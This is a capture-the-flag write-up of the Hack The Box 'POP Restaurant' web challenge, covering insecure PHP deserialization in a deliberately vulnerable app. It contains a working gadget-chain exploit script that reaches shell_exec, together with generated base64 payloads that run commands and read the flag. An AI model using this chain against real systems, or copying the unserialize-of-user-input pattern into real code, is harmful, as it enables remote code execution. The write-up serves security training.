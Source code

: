 # POP restaurant

- **Challenge**: [https://app.hackthebox.com/challenges/POP%2520Restaurant](https://app.hackthebox.com/challenges/POP%2520Restaurant)
- **Category**: Web
- **Level**: Easy
- **Author**: underthestars

There is a **Insecure Object Deserialization** at `order.php`.

```php
<?php

error_reporting(0);
require_once 'Helpers/ArrayHelpers.php';
require_once 'Helpers/CheckAuthentication.php';
require_once 'Models/PizzaModel.php';
require_once 'Models/IceCreamModel.php';
require_once 'Models/SpaghettiModel.php';
require_once 'Models/DatabaseModel.php';

isAuthenticated();
$username = $_SESSION['username'];
$id = $_SESSION['id'];

$db = new Database();

$order = unserialize(base64_decode($_POST['data']));

$foodName = get_class($order);

$result = $db->Order($id,$foodName);
if ($result) {
    header("Location: index.php");
    die();
} else {
    $errorInfo = $stmt->errorInfo();
    die("Error executing query: " . $errorInfo[2]);

```

The `order.php` includes the below files:

```php
<?php

namespace Helpers{
	use \ArrayIterator;
	class ArrayHelpers extends ArrayIterator {
		public $callback;

		public function current() {
			$value = parent::current();
			$debug = call_user_func($this->callback, $value);
			return $value;
		}
	}
}

class Spaghetti
{
    public $sauce;
    public $noodles;
    public $portion;

    public function __get($tomato)
    {
        ($this->sauce)();
    }
}

class Pizza {
	public $price;
	public $cheese;
	public $size;

	public function __destruct() {
		echo $this->size->what;
	}
}

class IceCream {
	public $flavors;
	public $topping;

	public function __invoke() {
		foreach ($this->flavors as $flavor) {
			echo $flavor;
		}
	}
}

?>

```

It is possible to perform a **pop (property-oriented programmain) chain** to execute arbitrary command.

- **__destruct** @ Pizza
- **__get** @ Spaghetti
- **__invoke** @ IceCream
- **call_user_func** @ Helpers\ArrayHelper

```text

POP chain:

Pizza {
	$size=Spaghetti {
		$sauce=IceCream {
			$flavors=Helpers\ArrayHelper {
				$callback = 'shell_exec'
				current = '<cmd>'
			}
		}
	}

}

```

## Exploitation

`exploit.php`
```php

<?php

require_once 'Helpers/ArrayHelpers.php';
require_once 'Helpers/CheckAuthentication.php';
require_once 'Models/PizzaModel.php';
require_once 'Models/IceCreamModel.php';
require_once 'Models/SpaghettiModel.php';
require_once 'Models/DatabaseModel.php';

$helper=new Helpers\ArrayHelpers(array(0=>'ls -lah ./Static/Images/ > ./Static/Images/lss.txt'));

$helper->callback='shell_exec';

$helper->current;

$ice=new IceCream();

$ice->flavors=$helper;

$spaghetti=new Spaghetti();

$spaghetti->sauce=$ice;

$pizza=new Pizza();

$pizza->size=$spaghetti;

print serialize($pizza) . "\n\n";

print base64_encode(serialize($pizza)) . "\n\n";

?>

```

Crafting the payload in the local docker container.

```bash
$ sudo ./build_docker.sh

$ sudo docker container cp ./exploit.php c7c5b45c3ba2:/var/www/html
Successfully copied 2.56kB to f134e4c806fe:/var/www/html

$ sudo docker exec -it c7c5b45c3ba2 bash
```

```bash
www-data@c7c5b45c3ba2:~/html$ ls
Helpers  Models  Static  exploit.php  index.php  login.php  order.php  register.php

www-data@c7c5b45c3ba2:~/html$ php exploit.php
O:5:"Pizza":3:{s:5:"price";N;s:6:"cheese";N;s:4:"size";O:9:"Spaghetti":3:{s:5:"sauce";O:8:"IceCream":2:{s:7:"flavors";O:20:"Helpers\ArrayHelpers":4:{i:0;i:0;i:1;a:1:{i:0;s:49:"ls -lah ./Static/Images/ > ./Static/Images/ls.txt";}i:2;a:1:{s:8:"callback";s:10:"shell_exec";}i:3;N;}s:7:"topping";N;}s:7:"noodles";N;s:7:"portion";N;}}

Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7TjtzOjY6ImNoZWVzZSI7TjtzOjQ6InNpemUiO086OToiU3BhZ2hldHRpIjozOntzOjU6InNhdWNlIjtPOjg6IkljZUNyZWFtIjoyOntzOjc6ImZsYXZvcnMiO086MjA6IkhlbHBlcnNcQXJyYXlIZWxwZXJzIjo0OntpOjA7aTowO2k6MTthOjE6e2k6MDtzOjQ5OiJscyAtbGFoIC4vU3RhdGljL0ltYWdlcy8gPiAuL1N0YXRpYy9JbWFnZXMvbHMudHh0Ijt9aToyO2E6MTp7czo4OiJjYWxsYmFjayI7czoxMDoic2hlbGxfZXhlYyI7fWk6MztOO31zOjc6InRvcHBpbmciO047fXM6Nzoibm9vZGxlcyI7TjtzOjc6InBvcnRpb24iO047fX0=

ls -lah ./Static/Images/ > ./Static/Images/ls.txt
```

![BurpSuite ls](./images/ls_bs.png)

![Result of ls](./images/ls.png)

crafting the payload to execute a `cat flag.txt`:

```php

$helper=new Helpers\ArrayHelpers(array(0=>'cat /*_flag.txt > ./Static/Images/flag.txt'));

```

```bash
www-data@c7c5b45c3ba2:~/html$ php exploit.php 
O:5:"Pizza":3:{s:5:"price";N;s:6:"cheese";N;s:4:"size";O:9:"Spaghetti":3:{s:5:"sauce";O:8:"IceCream":2:{s:7:"flavors";O:20:"Helpers\ArrayHelpers":4:{i:0;i:0;i:1;a:1:{i:0;s:42:"cat /*_flag.txt > ./Static/Images/flag.txt";}i:2;a:1:{s:8:"callback";s:10:"shell_exec";}i:3;N;}s:7:"topping";N;}s:7:"noodles";N;s:7:"portion";N;}}

Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7TjtzOjY6ImNoZWVzZSI7TjtzOjQ6InNpemUiO086OToiU3BhZ2hldHRpIjozOntzOjU6InNhdWNlIjtPOjg6IkljZUNyZWFtIjoyOntzOjc6ImZsYXZvcnMiO086MjA6IkhlbHBlcnNcQXJyYXlIZWxwZXJzIjo0OntpOjA7aTowO2k6MTthOjE6e2k6MDtzOjQyOiJjYXQgLypfZmxhZy50eHQgPiAuL1N0YXRpYy9JbWFnZXMvZmxhZy50eHQiO31pOjI7YToxOntzOjg6ImNhbGxiYWNrIjtzOjEwOiJzaGVsbF9leGVjIjt9aTozO047fXM6NzoidG9wcGluZyI7Tjt9czo3OiJub29kbGVzIjtOO3M6NzoicG9ydGlvbiI7Tjt9fQ==

cat /*_flag.txt > ./Static/Images/flag.txt
```

![BurpSuite cat](./images/cat_bs.png)

![Result of cat](./images/cat.png)

---

[https://github.com/apaonessaa](https://github.com/apaonessaa)
